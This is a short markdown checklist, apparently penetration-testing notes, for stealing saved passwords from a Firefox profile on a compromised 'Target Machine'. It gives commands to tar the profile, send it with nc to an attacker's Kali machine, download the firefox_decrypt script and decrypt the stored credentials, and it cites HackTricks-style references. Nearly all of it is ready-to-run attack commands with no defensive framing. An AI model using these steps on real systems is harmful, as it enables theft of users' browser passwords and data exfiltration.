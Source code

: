 # Firefox

- [ ] Locate Firefox profile on the Target Machine
```
/home/hentaisalesman/.mozilla/firefox/xxxxxxxx.default
```

- [ ] Create tarball on the Target Machine
```
cd /home/hentaisalesman/.mozilla/
tar -zcvf firefox.tar.gz firefox
```

- [ ] Set up `nc` file receiver on your Kali Machine
```
nc -l -p 6969 > firefox.tar.gz
```

- [ ] Transfer file from the Target Machine to your Kali Machine
```
nc 192.168.xxx.xxx 6969 < firefox.tar.gz
```

- [ ] Extract tarball on your Kali Machine
```
tar -zxvf firefox.tar.gz
```

- [ ] Download Firefox Decrypt on your Kali Machine
```
wget https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py
```

- [ ] Decrypt the encrypted password on your Kali Machine
```
python3 firefox_decrypt.py firefox 
```

References
https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/credentials-from-password-stores/credentials-from-web-browsers
https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts